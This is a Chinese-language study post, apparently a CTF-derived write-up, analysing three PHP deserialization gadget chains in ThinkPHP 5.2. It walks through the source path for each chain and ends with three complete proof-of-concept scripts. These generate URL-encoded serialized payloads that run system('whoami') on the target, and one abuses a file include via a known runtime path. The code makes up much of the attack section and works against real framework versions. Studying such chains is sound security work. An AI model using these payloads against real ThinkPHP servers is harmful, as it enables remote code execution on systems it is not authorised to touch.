





# Thinkphp 5.2反序列化利用链学习
---

## 安装环境
这里直接使用[N1CTF2019 sql manager的源码](https://github.com/Nu1LCTF/n1ctf-2019/blob/master/WEB/sql_manage/Docker/sql_manage.zip)

我还是直接在sublime中运行think文件进行调试

## 利用链
5.2保留了5.1利用链中的`__destruct()`和`__toString()`
不过到`think/Request.php`这里已经没有了`__call()`需要重找一条新链

### 利用链I
跟到`think/model/concern/Conversion.php`中的`__toString()`

`toArray`中：

调用了`think/model/concern/Attribute`中的`getAttr()`
跟到`getAttr()`：

调用`getValue()`,而`getValue()`中的`$value   = $closure($value, $this->data);`
若其中参数都是可控的，则可任意代码执行，接下来逐一分析各个参数
`$closure`由`$closure = $this->withAttr[$fieldName];`而来
且`$fieldName = $this->getRealFieldName($name);`

`$name`为`getAttr($name)`传入的也就是最开始`toArray()`中的`$data`数组中的键值
`$data = array_merge($this->data, $this->relation);`可控
`$this->data`为`Attribute`类中的`private $data`
这里注意键名不可为数字如`['123' => "233"]`or`["123" => "233"]`
因为这样反序列化时会当成`a:1:{i:123;s:3:"233";}`，`$data`就会变为
```
array(1) {
  [0]=>
  string(3) "233"
}
```
之后控制
```php
trait Attribute{
    private $data = ['test' => "whoami"]; //此处2个键名要相同，值为$value
    private $withAttr = ['test' => "system"]; //此处2个键名要相同，值为$closure
}
```
即可

### 利用链II
[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)这篇文章中提到了另一种和利用链I类似的方法，只不过不是直接执行符合条件的函数，而是通过tp自带的`SerializableClosure`调用
`\Opis\Closure`可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。这意味着我们可以序列化一个匿名函数，然后交由上述的`$closure($value, $this->data)`调用执行

这里用到了`__invoke()`:将对象当作函数来使用时，会自动调用该方法
`func_get_args()`:返回一个包含函数参数列表的数组
```php
<?php
$func = function(){phpinfo();}; //$这里func为一个对象
call_user_func_array($func,[]);
```
这样是可以成功执行`phpinfo()`的

可以看到这里的`$closure`就是我们传入的值

### 利用链III
遵循5.1的套路，还是利用`__call()`，
不过这里有条件：需要上传一个`route.php`结尾的文件且文件位置已知
开头说到`think/Request.php`这里已经没有`__call()`了，需要重找一条新链
这里是利用`vendor/topthink/framework/src/think/Db.php`中的`__call()`

发现可以控制new一个新类
`think\Url`中的`__construct()`正好可以利用

`getRuntimePath()`也可控

这里我们配置
```php
    class App{
        protected $runtimePath;
        public function __construct(string $rootPath = ''){
            $this->rootPath = $rootPath;
            $this->runtimePath = "/tmp/test/test";
            $this->route = new \think\route\RuleName();
        }
    }
```
存在`/tmp/test/testroute.php`文件，这样即可import这个文件，达成代码执行


### POCs
#### POC I
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{
        private $data = ['test' => "whoami"]; 	//此处2个键名要相同，值为$value
        private $withAttr = ['test' => "system"];	//此处2个键名要相同，值为$closure
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
    // echo serialize($payload);
}
```

#### POC II
这里须在`Model`中改`$data`和`$withAttr`，POC I中在`Attribute`或`Model`中都行
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
    }
    trait Attribute{	
    }
}

namespace think{
    class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
        private $data = ['test' => ""];
        private $withAttr = [];			
        function __construct($closure){
            $this->withAttr = ['test' => $closure ];
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{
    }
}

namespace{
    require __DIR__ . '/vendor/autoload.php';
    use Opis\Closure\SerializableClosure;
    $closure = new SerializableClosure(function(){system("whoami");});
    $string = new think\model\Pivot($closure);
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```

#### POC III
```php
<?php
namespace think\process\pipes{
    class Windows{
        public function __construct($s){
            $this->files = array($s);
        }
    }

}

namespace think\model\concern{
    trait Conversion{
        protected $append = array("key" => array('name' => 'name_value'));
    }

    trait Attribute{
        private $data = []; 
        function __construct(){
            $this->data = array("key" => new \think\Db()); //key 与上面$append那个key保持相同
        }
    }
}

namespace think{
    abstract class Model{
        use model\concern\Conversion;
        use model\concern\Attribute;
    }

    class App{
        protected $runtimePath;
        public function __construct(string $rootPath = ''){
            $this->rootPath = $rootPath;
            $this->runtimePath = "/tmp/test/test";
            $this->route = new \think\route\RuleName();
        }
    }

    class Db{
        protected $connection;
        protected $config = ['query' => '\think\Url'];
        function __construct(){
            $this->connection = new App();
        }
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model{

    }

}

namespace{
    require __DIR__ . '/vendor/autoload.php';
    $string = new think\model\Pivot();
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```


## 参考链接
1.[sql manager writeup](https://github.com/Nu1LCTF/n1ctf-2019/blob/master/WEB/sql_manage/README.md)
2.[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)